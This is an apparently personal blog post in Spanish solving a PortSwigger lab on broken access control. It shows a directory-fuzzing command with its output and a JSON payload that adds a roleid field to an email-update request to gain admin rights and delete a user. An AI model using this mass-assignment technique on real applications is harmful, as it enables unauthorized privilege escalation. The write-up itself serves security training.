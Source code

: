 ```yaml
---
title: "User role can be modified in user profile"
description: "Laboratorio de Portswigger sobre Access Control"
date: 2024-12-04 12:26:00 +0800
lang: es-ES
author: Justice-Reaper
categories:
  - Portswigger Labs
  - Access Control
tags:
  - Portswigger Labs
  - Access Control
  - User role can be modified in user profile
image:
  path: /assets/img/Portswigger/Portswigger.png
---
```


## Certificaciones

- eWPT
- eWPTXv2
- OSWE
- BSCP
  
## Descripción

Este `laboratorio` tiene un `panel de administración` en `/admin`. Solo es accesible para `usuarios autenticados` con un `roleid` de `2`. Para `resolver` el laboratorio, debemos `acceder` al `panel de administración` y `eliminar` al `usuario carlos`. Podemos `iniciar sesión` en tu nuestra cuenta con las siguientes credenciales `wiener:peter`

---

## Resolución

Al `acceder` a la `web` nos sale esto

![](/assets/img/Access-Control-Lab-4/image_1.png)

Pulsamos en `My account` y nos logueamos con las credenciales `wiener:peter`

![](/assets/img/Access-Control-Lab-4/image_2.png)

`Fuzzeamos` rutas y encontramos una llamada `/admin`

```
# ffuf -c -t 20 -w /usr/share/seclists/Discovery/Web-Content/common.txt -u https://0a0600100345e4df8263e5a700810033.web-security-academy.net/FUZZ

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : https://0a0600100345e4df8263e5a700810033.web-security-academy.net/FUZZ
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/Web-Content/common.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 20
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

ADMIN                   [Status: 401, Size: 2588, Words: 1053, Lines: 54, Duration: 63ms]
Admin                   [Status: 401, Size: 2588, Words: 1053, Lines: 54, Duration: 59ms]
Login                   [Status: 200, Size: 3051, Words: 1287, Lines: 63, Duration: 67ms]
admin                   [Status: 401, Size: 2588, Words: 1053, Lines: 54, Duration: 61ms]
analytics               [Status: 200, Size: 0, Words: 1, Lines: 1, Duration: 55ms]
favicon.ico             [Status: 200, Size: 15406, Words: 11, Lines: 1, Duration: 56ms]
filter                  [Status: 200, Size: 10778, Words: 5080, Lines: 199, Duration: 63ms]
login                   [Status: 200, Size: 3051, Words: 1287, Lines: 63, Duration: 61ms]
logout                  [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 60ms]
my-account              [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 59ms]
```

Si accedemos a `/admin` nos `muestra` este `mensaje`

![](/assets/img/Access-Control-Lab-4/image_3.png)

En la parte de `My account` vemos que podemos `actualizar` nuestro `email`

![](/assets/img/Access-Control-Lab-4/image_4.png)

Si `interceptamos` la `petición` mediante `Burpsuite` vemos esto

![](/assets/img/Access-Control-Lab-4/image_5.png)

Si `enviamos` la `petición`, esta es la `repuesta` que `recibimos`

![](/assets/img/Access-Control-Lab-4/image_6.png)

Podemos `enviar` este `payload` en el cual cambiamos nuestro `roleid` a `2` con el fin de `escalar privilegios`

```
{
	"email":"wiener@normal-user.net",
	"roleid": 2
}
```

Una vez `ascendido` nuestro `privilegio` ya podemos `acceder` a `/admin`, `borrar` al usuario `carlos` y `ascender` nuestro `privilegio`

![](/assets/img/Access-Control-Lab-4/image_7.png)

